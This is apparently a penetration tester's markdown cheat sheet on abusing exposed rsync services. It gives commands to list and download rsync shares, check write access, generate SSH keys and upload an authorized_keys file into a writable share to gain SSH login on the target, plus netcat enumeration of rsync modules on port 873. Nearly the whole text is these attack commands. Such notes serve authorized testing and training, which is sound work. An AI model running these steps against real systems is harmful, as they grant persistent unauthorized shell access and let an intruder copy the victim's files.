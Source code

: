 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### SSH key upload

```bash - kali
rsync rsync://$TARGET
```

```bash - kali
rsync rsync://$TARGET/$FOLDER
```

Download share with it's contents:
```bash - kali
rsync -av rsync://$TARGET/$FOLDER ./rsyncfiles
```

Test to see if we can upload files:

```bash - kali
echo "test" > test
```

```bash - kali
rsync -av test.txt rsync://$TARGET/$FOLDER
```

```bash - kali
rsync -av --list-only rsync://$TARGET/$FOLDER
```

Next, we'll create ssh keys and upload so we can ssh into target:

```bash - kali
ssh-keygen
```

```bash - kali
cp /home/kali/.ssh/id_rsa* .
```

```bash - kali
mkdir .ssh && mv id_rsa* .ssh
```

Change the public key to authorized_keys

```bash - kali
mv id_rsa.pub authorized_keys
```

Transfer the key files to the target like so:
```bash - kali
rsync -a --relative ./.ssh  rsync://$TARGET/$FOLDER/
```

```bash - kali
ssh $USER@$TARGET
```

---

#### nc enumeration

```bash - kali
nc -nvv $TARGET 873
```

```bash - kali
@RSYNCD: 31.0  
```

```bash - kali
#list
```


Now lets try to enumerate

```bash - kali
nc -nvv $TARGET 873
```

```bash - kali
@RSYNCD: 31.0  
```

```bash - kali
$FOLDER
```

`@RSYNCD: AUTHREQD 7H6CqsHCPG06kRiFkKwD8g`    <--- This means you need the password